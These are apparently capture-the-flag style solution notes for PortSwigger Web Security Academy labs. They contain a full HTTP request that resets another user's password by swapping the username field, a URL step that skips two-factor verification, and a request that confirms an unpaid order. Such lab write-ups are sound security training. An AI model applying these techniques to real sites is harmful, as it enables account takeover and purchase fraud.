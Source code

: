 ### Lab: Password reset broken logic

Task: Reset Carlos password and login

Solution: Obtain a password reset link, reset the password but for Carlos instead of yourself by changing the username field

```
POST /forgot-password?temp-forgot-password-token=8tlIagWDbUIpstEYGp6s6PTUE4aNAiUa HTTP/1.1
Host: 0a01005304e233ccc0445cb9006700e3.web-security-academy.net
Cookie: session=WztvCnfdCGcH71IfDuxid88OyWbqjCUq
Content-Length: 113
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a01005304e233ccc0445cb9006700e3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a01005304e233ccc0445cb9006700e3.web-security-academy.net/forgot-password?temp-forgot-password-token=8tlIagWDbUIpstEYGp6s6PTUE4aNAiUa
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

temp-forgot-password-token=8tlIagWDbUIpstEYGp6s6PTUE4aNAiUa&username=carlos&new-password-1=asd&new-password-2=asd
```

### Lab: 2FA simple bypass

Task: Login as Carlos given that you have his credentials

Solution: Skip the OTP authentication by changing URL to `/my-account` when you reach the OTP verification page.

### Lab: Insufficient workflow validation

Task: Buy jacket with only $100 in your account

Solution: On the checkout page, press "place orders". Change request to `GET /cart/order-confirmation?order-confirmation=true`. You can also just change the URL to `/cart/order-confirmation?order-confirmation=true` on the checkout page.

### Lab: Authentication bypass via flawed state machine
